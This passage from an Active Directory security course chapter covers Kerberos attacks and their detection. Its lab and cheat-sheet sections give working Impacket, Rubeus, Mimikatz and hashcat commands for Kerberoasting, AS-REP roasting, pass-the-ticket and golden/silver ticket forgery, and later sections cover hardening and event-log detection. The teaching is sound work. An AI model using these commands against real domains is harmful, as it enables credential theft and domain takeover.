# Forge with Impacket (offline; needs krbtgt NThash + domain SID from Chapter 3)
ticketer.py -nthash <KRBTGT_NTHASH> -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
    -domain corp.local Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass CORP/Administrator@dc01.corp.local
```

The `-domain-sid` is the domain identifier from Chapter 3; `ticketer.py` stuffs the
privileged RIDs into the PAC (Part 7) and signs with the `krbtgt` key (Part 4). Because
DCs validate a TGT purely by decrypting it with `krbtgt`, the forgery is indistinguishable
from a legitimate TGT until you rotate `krbtgt` **twice** (once invalidates in-flight
tickets after replication; twice fully purges the old key). This is precisely why "rotate
krbtgt twice" is the standard post-compromise ritual.

## Part 10: Hands-On Lab — Roast, Pass, and Forge

Lab domain `CORP.LOCAL`. Authorized/lab use only; forging tickets against systems you
don't own is a crime.

### 10.1 Kerberoasting from Linux (Impacket)

`GetUserSPNs.py` requests service tickets for every SPN-bearing account and prints
crackable hashes:

```bash
GetUserSPNs.py CORP/jsmith:'Passw0rd!' -dc-ip 10.10.10.5 -request
#   -request : actually request the TGS blobs (not just list SPNs)
```

```
ServicePrincipalName    Name       MemberOf                     PasswordLastSet
======================  =========  ===========================  ===================
MSSQLSvc/db01:1433      svc_sql    CN=SQLAdmins,OU=Groups,...    2021-03-02 09:11
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/db01~1433*$a1b2...  (crackable hash)
```

Crack offline with Hashcat mode **13100**:

```bash
hashcat -m 13100 sql_tgs.hash rockyou.txt
#   -m 13100 : Kerberos 5 TGS-REP etype 23 (RC4)
```

### 10.2 AS-REP roasting

```bash
GetNPUsers.py CORP/ -usersfile users.txt -dc-ip 10.10.10.5 -no-pass -request
#   -no-pass : we don't authenticate; we only target pre-auth-disabled accounts
```

```
$krb5asrep$23$svc_legacy@CORP.LOCAL:f4c1...   <- crack with hashcat -m 18200
```

### 10.3 Overpass-the-Hash and Pass-the-Ticket (Rubeus, Windows foothold)

```powershell
# Turn an NT hash into a real TGT (Overpass-the-Hash)
Rubeus.exe asktgt /user:jsmith /rc4:AABBCC...NTHASH /domain:corp.local /ptt
#   /ptt : inject the resulting TGT into the current logon session

# Steal existing tickets from memory and reuse them (Pass-the-Ticket)
Rubeus.exe dump                       # list cached tickets
Rubeus.exe ptt /ticket:base64ticket   # inject a stolen TGT/ST
```

### 10.4 Golden and silver tickets (Mimikatz)

```
:: GOLDEN — requires the krbtgt hash (from DCSync). Forge a TGT as a fake admin.
kerberos::golden /user:Administrator /domain:corp.local
  /sid:S-1-5-21-3623811015-3361044348-30300820
  /krbtgt:KRBTGT_NT_HASH /id:500 /ptt

:: SILVER — requires a service/machine account hash. Forge one service ticket.
kerberos::golden /user:Administrator /domain:corp.local
  /sid:S-1-5-21-3623811015-3361044348-30300820
  /target:FS01.corp.local /service:CIFS /rc4:MACHINE_ACCOUNT_HASH /id:500 /ptt
```

Note the `/sid` (domain identifier from Chapter 3) + `/id:500` (RID 500) — you are
literally hand-assembling the SID of *Administrator* into the forged PAC. The whole
chapter converges here: SIDs (Ch3) inside a PAC (Part 7) inside a ticket signed with a
stolen key (Parts 4/6).

### 10.5 Verify and inspect tickets

```bash
klist                          # Windows: list cached tickets, etypes, flags
Rubeus.exe klist               # richer view incl. renew-till, session key etype
export KRB5CCNAME=jsmith.ccache && klist   # Linux/Impacket ccache
```

Use `klist` to confirm etype (aim to see AES 0x12, not RC4 0x17), flags (forwardable/
renewable), and expiry — the same fields a defender inspects when triaging suspicious
Kerberos activity.

### 10.6 Inspecting a ticket's guts

Cracking and forging are only half the skill; reading a ticket tells you what you're
holding. Rubeus `describe` (or Impacket's `describeTicket.py`) decodes a base64/`.kirbi`
/`.ccache` ticket into its fields:

```bash
describeTicket.py Administrator.ccache
```

```
[*] Service Name              : krbtgt/CORP.LOCAL
[*] User Name                 : Administrator
[*] Flags                     : forwardable, renewable, initial, pre_authent
[*] Key Encryption Type       : rc4_hmac      <-- forged tickets often default to RC4
[*] Start / End / RenewTill   : ... / +10h / +7d
[*] --- PAC ---
[*]   User SID                : S-1-5-21-3623811015-3361044348-30300820-500
[*]   Groups (RIDs)           : 512, 519, 518, 520, 513
```

Two tells that a TGT is **forged (golden)** rather than legit: the **Key Encryption
Type** is `rc4_hmac` while the domain issues AES, and the ticket lifetime is
absurdly long (attackers set `/endin` to years). Real DCs issue AES TGTs with the domain
policy lifetime (default 10h / 7d renew). A defender who dumps cached tickets and finds
an RC4 TGT with a multi-year `RenewTill` has almost certainly found a golden ticket.

### SPN hygiene and troubleshooting Kerberos

Because Kerberos maps a *requested SPN* to the *account whose key encrypts the ticket*,
SPN mistakes break authentication in confusing ways. The commands to diagnose:

```cmd
setspn -L svc_sql                 :: list SPNs registered to an account
setspn -Q MSSQLSvc/db01.corp.local:1433   :: who owns this SPN? (duplicates = breakage)
setspn -X                          :: find DUPLICATE SPNs domain-wide (a real outage cause)
klist                              :: what tickets/etypes do I currently hold?
klist purge                        :: drop cached tickets to force a fresh request
w32tm /query /status               :: check time sync (clock skew kills Kerberos)
```

A **duplicate SPN** (the same SPN on two accounts) makes the KDC refuse to issue that
service ticket (`KRB_AP_ERR_MODIFIED` / auth failures) — `setspn -X` finds them. A
**missing SPN** forces NTLM fallback (Part on Kerberos vs NTLM). And **clock skew** over
5 minutes yields `KRB_AP_ERR_SKEW`; `w32tm` confirms the host is synced to the DC's
hierarchy. These three — duplicate SPN, missing SPN, clock skew — account for the large
majority of "Kerberos just isn't working" tickets a Windows engineer will ever see.

## Part 11: Common Pitfalls & Misconceptions

- **"Kerberos sends the password to the service."** Never. The password never leaves the
  client; the service only ever sees a ticket encrypted with the *service's* key.
- **"Clock skew doesn't matter."** It's central. Authenticators carry timestamps; the
  default tolerance is **5 minutes**. A host more than 5 minutes off the DC gets
  `KRB_AP_ERR_SKEW` and Kerberos fails (silently falling back to NTLM or just erroring).
  Time sync is a Kerberos prerequisite.
- **"A wrong/missing SPN just means a permissions error."** No — if the SPN isn't
  registered (or is duplicated), the KDC can't find the service account to encrypt the
  ticket, and you get failures or NTLM fallback. SPN hygiene is real.
- **"Golden and silver tickets are the same."** Golden = forged **TGT** with the
  **`krbtgt`** key (works everywhere, KDC-issued-looking). Silver = forged **service
  ticket** with a **service/machine** key (one service, no KDC contact, stealthier).
- **"Cracking a Kerberoast ticket touches the DC."** The *request* does (event 4769), but
  cracking is **offline** — the DC sees a normal ticket request, nothing more. That's why
  detection focuses on *anomalous* 4769 patterns (many SPNs, RC4, from one account).
- **"Disabling pre-auth is harmless for service accounts."** It enables AS-REP roasting;
  never disable pre-auth.
- **"The double-hop problem is a bug."** It's by design: a service holding your *service
  ticket* cannot use it to authenticate onward *as you* — that's what delegation (S4U)
  exists to solve, and why unconstrained delegation is so dangerous (Chapter 4).

## Part 12: Detection & Defense Angle

Kerberos hardening and monitoring, consolidated:

**Harden.**

- **Protect `krbtgt`:** rotate its password **twice** on a schedule and after any DA
  compromise (golden-ticket cure). Treat RID 502 as Tier-0.
- **Kill roasting value:** long random passwords or **gMSA/dMSA** for every SPN-bearing
  account; **disable RC4** (`msDS-SupportedEncryptionTypes` = AES) domain-wide so
  tickets are slow to crack; never disable pre-auth.
- **Constrain delegation:** no non-DC unconstrained delegation (Chapter 4); put Tier-0
  accounts in **Protected Users** (no RC4, no delegation, 4-hour TGT) and mark them
  "sensitive, cannot be delegated".
- **Patch PAC CVEs** (MS14-068 and successors) and enable PAC validation where feasible.

**Watch these events (all on DCs / endpoints):**

| Event ID | Meaning | Kerberos-attack signal |
|----------|---------|------------------------|
| 4768 | TGT requested (AS-REP) | AS-REP roasting: TGT requests with **no pre-auth** / etype 0x17 |
| 4769 | Service ticket requested (TGS) | Kerberoasting: many SPNs from one user, **RC4 (0x17)** requests |
| 4770 | Service ticket renewed | Long-lived reuse |
| 4771 | Kerberos pre-auth failed | Password spraying / brute force |
| 4624/4672 | Logon / privileged logon | PtT/golden landing as a privileged SID |
| 4964 | Special groups assigned to logon | Golden ticket presenting DA SIDs |

**Highest-value analytics:** a single account requesting service tickets for *many*
distinct SPNs in a short window (Kerberoast); **4768** with pre-auth not required
(AS-REP roast); **RC4 etype** requests where AES is expected (downgrade); TGTs with
anomalously long lifetimes or for accounts that shouldn't be active (golden ticket);
and service tickets accepted for SPNs the KDC never issued (silver — hard to see without
PAC validation, which is why it's worth enabling). Encourage **AES-only** so any RC4 in
4769 stands out as suspicious by itself.

### Reading a 4769 like a hunter — a worked detection

Kerberoasting's only on-DC footprint is the *ticket request*, logged as **event 4769**.
A single request is normal (every share access generates one); the *pattern* is the
signal. A raw 4769 payload looks like:

```
A Kerberos service ticket was requested.
  Account Name:         jsmith@CORP.LOCAL
  Service Name:         svc_sql
  Service ID:           CORP\svc_sql
  Ticket Options:       0x40810000
  Ticket Encryption Type: 0x17          <-- RC4  (suspicious if domain is AES-capable)
  Client Address:       ::ffff:10.10.10.66
  Failure Code:         0x0
```

The two fields that matter: **Ticket Encryption Type `0x17`** (RC4 when AES is expected =
likely deliberate downgrade for cracking) and the **rate/breadth** — one account
(`jsmith`) requesting tickets for *many distinct SPN accounts* (`svc_sql`, `svc_web`,
`svc_backup`…) within seconds. A detection that fires on "≥ N distinct service names per
source account per minute, especially etype 0x17" catches Kerberoasting with very low
false positives.

The equivalent AS-REP-roast signal is **event 4768** (a TGT request) where
*pre-authentication was not used* — legitimate for almost no modern account, so it is
close to a pure indicator. And a **golden ticket** often shows as a **4769/4624** for an
account whose **4768 (initial TGT request) was never seen** — the attacker forged the TGT
offline, so the DC has a service-ticket use with no corresponding authentication start.
Hunting for "service ticket activity without a preceding AS-REP" is a classic golden-
ticket analytic.



## Part 13: Final Revision — Recap

- Kerberos = three actors (**client**, **KDC** on every DC = AS+TGS, **service** by
  **SPN**) and six messages in three exchanges: **AS-REQ/REP**, **TGS-REQ/REP**,
  **AP-REQ/REP**.
- **AS exchange** issues a **TGT**, encrypted with the **`krbtgt` key** (client can't
  read it). **Pre-authentication** (encrypted timestamp with the user's key) proves
  identity; disabling it enables **AS-REP roasting**.
- **TGS exchange** trades the TGT for a **service ticket**, encrypted with the **service
  account's key**. Any user can request any SPN's ticket → **Kerberoasting** (crack the
  service key offline).
- **AP exchange** presents the service ticket; the service validates it with **its own
  key**, no KDC contact → **silver tickets** (forge with a service/machine key).
- The **PAC** carries the user's **group SIDs** (Chapter 3) and two signatures (service
  + `krbtgt`); it's what golden/silver tickets forge, and the subject of MS14-068.
- **`krbtgt` key** → **golden ticket** (forge any TGT, domain persistence). **NT hash =
  RC4 key** → **Overpass-the-Hash**. Stolen tickets → **Pass-the-Ticket**.
- **RC4 (etype 23)** cracks fast (key = NT hash); **AES (17/18)** is salted and slow —
  disable RC4. Clock skew tolerance is **5 minutes**.
- Defense: rotate `krbtgt` twice, gMSA + AES-only to kill roasting, Protected Users +
  no unconstrained delegation, patch PAC CVEs, and hunt 4768/4769 anomalies.

## Part 14: Cheat Sheet / Quick Reference

**Messages & keys**

```
AS-REQ  -> PA-ENC-TIMESTAMP{now}_Kuser
AS-REP  -> TGT{sesskey,PAC}_Kkrbtgt  + encpart{sesskey}_Kuser
TGS-REQ -> TGT + SPN + authenticator{now}_Ktgtsess
TGS-REP -> ST{svcsess,PAC}_Kservice  + encpart{svcsess}_Ktgtsess
AP-REQ  -> ST + authenticator{now}_Ksvcsess     (service decrypts with its own key)
AP-REP  -> {timestamp}_Ksvcsess                 (optional mutual auth)
```

**Key -> attack**

```
user key    (AS-REP)   : AS-REP roast   (hashcat -m 18200)
service key (TGS)       : Kerberoast     (hashcat -m 13100)
krbtgt key             : GOLDEN ticket (forge any TGT)
service/machine key    : SILVER ticket (forge one ST, no KDC)
NT hash = RC4 key      : Overpass-the-Hash (asktgt /rc4)
any ticket in memory   : Pass-the-Ticket (ptt)
```

**Etypes:** 23=RC4 (NT hash, fast crack) · 17=AES128 · 18=AES256 (salted, slow) ·
1/3=DES (disable).

**Tools**

```bash
GetUserSPNs.py DOM/u:p -dc-ip <DC> -request      # Kerberoast
GetNPUsers.py DOM/ -usersfile u.txt -no-pass -request  # AS-REP roast
Rubeus.exe asktgt /user:U /rc4:HASH /ptt         # OtH
Rubeus.exe ptt /ticket:<b64>                     # PtT
mimikatz kerberos::golden /user:Administrator /sid:<domainSID> /krbtgt:<hash> /id:500 /ptt
klist ; Rubeus.exe klist                         # inspect tickets/etypes
```

**Key events:** 4768 (TGT/AS-REP — watch no-preauth) · 4769 (TGS — watch many-SPN/RC4) ·
4771 (preauth fail — spray) · 4964 (special groups) · clock skew = 5 min.

## Part 15: Practice Labs & Resources

- **TryHackMe — "Attacktive Directory"**: AS-REP roasting end to end (`GetNPUsers.py`,
  hashcat 18200) — a direct Part 3/10 exercise.
- **TryHackMe — "Kerberos" / "Attacking Kerberos"**: Kerberoast, PtT, golden/silver in a
  guided lab; the best single room for this chapter.
- **HackTheBox — "Forest"**: AS-REP roast → DA path; **"Active"**: Kerberoast `svc_tgs`;
  **"Sauna"**: AS-REP roasting. All map onto Parts 3, 5, and 10.
- **HackTheBox — "Blackfield", "Mantis"**: silver/golden-ticket and PAC-related paths.
- **GOAD (Game of Active Directory)**: build it and run every command in Part 10 —
  roast, OtH, PtT, forge a golden ticket, then rotate `krbtgt` twice and watch the
  golden ticket die.
- **PortSwigger has no Kerberos labs**, but **"The Hacker Recipes" (Kerberos section)**
  and **Sean Metcalf's adsecurity.org** are the authoritative field references — read
  their golden/silver and Kerberoast pages alongside this chapter.
- **Microsoft docs:** "Kerberos authentication overview", "PAC validation", and the
  "Protected Users" and `msDS-SupportedEncryptionTypes` references.

Practice questions:

1. Which key encrypts the **TGT**, and what attack does knowing that key enable?
   (The **`krbtgt`** key; knowing it enables a **golden ticket** — forge any TGT.)
2. Why can *any* authenticated user Kerberoast *any* SPN account, and what makes the
   result crackable? (The KDC issues a service ticket for any SPN to any user; the ticket
   is encrypted with the **service account's password-derived key**, which is crackable
   offline if the password is weak — especially under RC4.)
3. A service validates an incoming ticket without contacting the KDC. Which attack does
   this enable and what does the attacker need? (**Silver ticket**; the attacker needs
   the **service/machine account's key**.)
4. What is the PAC, and why is it the object forged in golden/silver tickets? (It carries
   the user's **group SIDs** for authorization; forging it lets you claim Domain Admins.)
5. You see event **4768** requests for an account with **pre-authentication not required**
   and **etype 0x17 (RC4)**. Name the attack and two mitigations. (**AS-REP roasting**;
   mitigations: **enable pre-auth** on the account and **disable RC4** / enforce AES.)

In the next notebook (Notebook 5) we switch tracks from Active Directory to
**Programming for Security** — starting with Python, the language in which most of the
tooling in this chapter (Impacket, many roasting and ticket utilities) is written.
